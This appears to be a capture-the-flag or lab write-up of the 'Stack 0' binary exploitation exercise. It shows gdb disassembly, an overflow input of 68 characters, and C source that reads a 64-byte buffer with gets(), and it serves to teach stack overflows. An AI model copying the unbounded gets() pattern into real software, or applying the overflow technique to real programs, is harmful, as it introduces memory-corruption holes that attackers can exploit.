# Stack 0

## Problem

We take the primitive approach to check the main program and we see that there is a gets() function that we can potentially exploit. From here we also know that the program will take in at least one input to store this input in some variable.

```gdb
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

We can also see that there is likely to be a buffer from 0x1C-0X5c, representing a total of 64bytes which could suggest that there might be a stack of such a size. On `main+35` we notice that there is a comparison before some execution.

## Idea and Attack process

We first run the program with a random guess to find out the output of the program.

```shell
./stack0
123
>>>Try again?
```

Now we can try to overflow the stack and see what happens. We try to input 64char along with 4 additional char to test.

```shell
./stack0
12345678901234567890123456789012345678901234567890123456789012341234
you have changed the 'modified' variable
```

Success, and now we can see that the compare statement could be an `if` statement in the source code which is an exit and to prompt us to try again.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```